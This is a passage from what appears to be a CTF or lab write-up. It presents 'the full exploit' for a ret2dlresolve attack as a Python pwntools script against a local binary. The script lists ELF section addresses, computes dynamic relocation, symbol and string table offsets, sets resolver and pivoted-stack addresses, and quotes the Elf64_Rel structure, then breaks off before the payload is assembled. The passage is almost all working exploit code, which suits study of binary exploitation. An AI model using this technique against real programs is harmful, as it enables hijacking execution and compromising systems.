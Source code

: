 The full exploit is as follows: 

```python
from pwn import *
p = process('./test')
#gdb.attach(p, gdbscript="b *main+61")
elf = ELF('./test')

"""
	0x0000000000400318 - 0x0000000000400334 is .interp
	0x0000000000400338 - 0x0000000000400368 is .note.gnu.property
	0x0000000000400368 - 0x000000000040038c is .note.gnu.build-id
	0x000000000040038c - 0x00000000004003ac is .note.ABI-tag
	0x00000000004003b0 - 0x00000000004003cc is .gnu.hash
	0x00000000004003d0 - 0x0000000000400448 is .dynsym
	0x0000000000400448 - 0x0000000000400495 is .dynstr
	0x0000000000400496 - 0x00000000004004a0 is .gnu.version
	0x00000000004004a0 - 0x00000000004004d0 is .gnu.version_r
	0x00000000004004d0 - 0x0000000000400500 is .rela.dyn
	0x0000000000400500 - 0x0000000000400530 is .rela.plt
	0x0000000000401000 - 0x000000000040101b is .init
	0x0000000000401020 - 0x0000000000401050 is .plt
	0x0000000000401050 - 0x0000000000401070 is .plt.sec
	0x0000000000401070 - 0x0000000000401193 is .text
	0x0000000000401194 - 0x00000000004011a1 is .fini
	0x0000000000402000 - 0x0000000000402004 is .rodata
	0x0000000000402004 - 0x0000000000402040 is .eh_frame_hdr
	0x0000000000402040 - 0x0000000000402104 is .eh_frame
	0x0000000000403df8 - 0x0000000000403e00 is .init_array
	0x0000000000403e00 - 0x0000000000403e08 is .fini_array
	0x0000000000403e08 - 0x0000000000403fd8 is .dynamic
	0x0000000000403fd8 - 0x0000000000403fe8 is .got
	0x0000000000403fe8 - 0x0000000000404010 is .got.plt
	0x0000000000404010 - 0x0000000000404020 is .data
	0x0000000000404020 - 0x0000000000404028 is .bss
"""

elf_load_address_fixup = elf.address - elf.load_addr
ELF64_REL_LIST = elf.dynamic_value_by_tag("DT_JMPREL") + elf_load_address_fixup
ELF64_SYM_LIST =  elf.dynamic_value_by_tag("DT_SYMTAB") + elf_load_address_fixup
FUNCTION_NAMES_LIST = elf.dynamic_value_by_tag("DT_STRTAB") + elf_load_address_fixup
RESOLVER = 0x401020

PIVOTED_STACK = 0x0000000000404f10
FINAL_STACK = 0x0000000000404da0

STRING_ADDRESS = PIVOTED_STACK+0x10
REL_ENTRY_ADDRESS = PIVOTED_STACK+0x30
SYM_ENTRY_ADDRESS = PIVOTED_STACK+0x20

"""
// Relocation entry, without explicit addend.
struct Elf64_Rel {
  Elf64_Addr r_offset; // Location (file byte offset, or program virtual addr).
  Elf64_Xword r_info;  // Symbol table index and type of relocation to apply.
 
  // These accessors and mutators correspond to the ELF64_R_SYM, ELF64_R_TYPE,
  // and ELF64_R_INFO macros defined in the ELF specification:
  Elf64_Word getSymbol() const { return (r_info >> 32); }
  Elf64_Word getType() const { return (Elf64_Word)(r_info & 0xffffffffL); }
  void setSymbol(Elf64_Word s) { setSymbolAndType(s, getType()); }
  void setType(Elf64_Word t) { setSymbolAndType(getSymbol(), t); }
  void setSymbolAndType(Elf64_Word s, Elf64_Word t) {
    r_info = ((Elf64_Xword)s << 32) + (t & 0xffffffffL);
```